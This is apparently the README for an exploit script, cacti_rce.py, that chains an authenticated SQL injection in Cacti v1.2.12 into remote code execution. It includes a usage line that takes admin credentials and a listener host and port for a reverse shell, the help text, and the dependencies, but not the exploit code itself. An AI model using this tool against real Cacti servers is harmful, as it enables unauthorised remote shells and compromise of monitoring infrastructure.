 # Cacti v1.2.12 Authenticated Remote Code Execution     
# (SQLI --> RCE)

<h4> Discovery : https://github.com/Cacti/cacti/issues/3622 </h4>


<h3> Usage : </h3>
<h3>python3 cacti_rce.py cacti_rce.py -H http://cactiurl -U `ADMIN USERNAME` -P `ADMIN PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: cacti_rce.py [-h] [-H H] [-U U] [-P P] [-l L] [-p P]

Cacti v1.2.12 Authenticated Remote Code Execution

 <p> optional arguments: </p>
 <p> -h, --help  show this help message and exit  </p>
 <p> -H H        Cacti URL Eg:http://cactiurl     </p>
 <p> -U U        Cacti Admin Username             </p>
 <p> -P P        Cacti Admin Password             </p>
 <p> -l L        rev shell lhost                  </p>
 <p> -p P        rev shell lport                  </p>


# Dependencies

<h4> pip3 install argparse </h4>
<h4> pip3 install bs4 </h4>
<h4> pip3 install requests </h4>
